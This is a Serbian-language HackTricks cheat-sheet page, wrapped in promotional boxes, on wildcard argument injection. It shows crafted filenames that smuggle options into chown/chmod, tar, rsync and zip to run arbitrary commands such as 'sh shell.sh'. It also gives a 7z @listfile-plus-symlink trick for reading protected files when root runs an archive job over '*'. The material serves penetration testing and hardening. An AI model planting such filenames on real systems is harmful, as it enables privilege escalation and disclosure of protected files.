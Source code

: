 # Wildcards Spare tricks

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

### chown, chmod

Možete **ukazati koji vlasnik fajla i dozvole želite kopirati za ostale fajlove**

```bash
touch "--reference=/my/own/path/filename"
```

Možete iskoristiti ovo koristeći [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(kombinovani napad)_\
Više informacija na [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

### Tar

**Izvršite proizvoljne komande:**

```bash
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```

Možete iskoristiti ovo koristeći [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(napad tarom)_\
Više informacija na [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

### Rsync

**Izvršite proizvoljne komande:**

```bash
Interesting rsync option from manual:

-e, --rsh=COMMAND           specify the remote shell to use
--rsync-path=PROGRAM    specify the rsync to run on remote machine
```

```bash
touch "-e sh shell.sh"
```

Možete iskoristiti ovo koristeći [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(napad rsyncom)_\
Više informacija na [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

### 7z

U **7z** čak i korišćenjem `--` pre `*` (napomena da `--` znači da sledeći unos ne može biti tretiran kao parametar, tako da u ovom slučaju samo putanje do fajlova) možete izazvati proizvoljnu grešku kako biste pročitali fajl, pa ako se izvršava sledeća komanda od strane root korisnika:

```bash
7za a /backup/$filename.zip -t7z -snl -p$pass -- *
```

I možete kreirati fajlove u folderu gde se ovo izvršava, možete kreirati fajl `@root.txt` i fajl `root.txt` koji je **simbolička veza** ka fajlu koji želite da pročitate:

```bash
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```

Zatim, kada se izvrši **7z**, on će tretirati `root.txt` kao datoteku koja sadrži listu datoteka koje treba komprimirati (to je ono što ukazuje postojanje `@root.txt`) i kada 7z pročita `root.txt`, pročitaće `/file/you/want/to/read` i **pošto sadržaj ove datoteke nije lista datoteka, prikazaće grešku** prikazujući sadržaj.

_Više informacija u Write-up-ovima kutije CTF sa HackTheBox-a._

### Zip

**Izvršavanje proizvoljnih komandi:**

```bash
zip name.zip files -T --unzip-command "sh -c whoami"
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje trikove hakovanja slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
